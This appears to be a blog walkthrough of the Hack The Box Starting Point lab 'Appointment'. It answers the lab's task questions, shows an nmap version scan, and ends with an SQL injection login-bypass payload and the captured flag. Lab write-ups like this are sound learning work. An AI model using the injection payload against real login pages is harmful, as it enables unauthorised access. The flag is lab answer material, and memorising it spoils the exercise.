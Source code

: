 ```yaml
---
layout: post
title: "[HTB - Starting Point] Appointment"
date: 2022-10-16 09:00:00 +0800
categories: HTB
tags: [HTB, Starting Point]
---
```


## Task 1  
Q : What does the acronym SQL stand for?  
A : Structured Query Language  

## Task 2  
Q : What is one of the most common type of SQL vulnerabilities?  
A : sql injection  

## Task 3  
Q : What does PII stand for?  
A : personally identifiable information  

## Task 4  
Q : What does the OWASP Top 10 list name the classification for this vulnerability?  
A : A03:2021-injection  

## Task 5  
Q : What service and version are running on port 80 of the target?  
``` text
[host] # nmap -sV -p80 <target_ip>
```
A : Apache httpd 2.4.38 ((Debian))  

## Task 6  
Q : What is the standard port used for the HTTPS protocol?  
A : 443  

## Task 7  
Q : What is one luck-based method of exploiting login pages?  
A : brute-forcing  

## Task 8  
Q : What is a folder called in web-application terminology?  
A : directory  

## Task 9  
Q : What response code is given for "Not Found" errors?  
A : 404  

## Task 10  
Q : What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?  
A : dir  

## Task 11  
Q : What symbol do we use to comment out parts of the code?  
A : #

## SUBMIT FLAG  
Q : Submit root flag  
``` text
go to target website via browser.
Use SQL injection to pass the account validation.
account : ' || '1'='1' #
password : abc
```
A : e3d0796d002a446c0e622226f42e9672
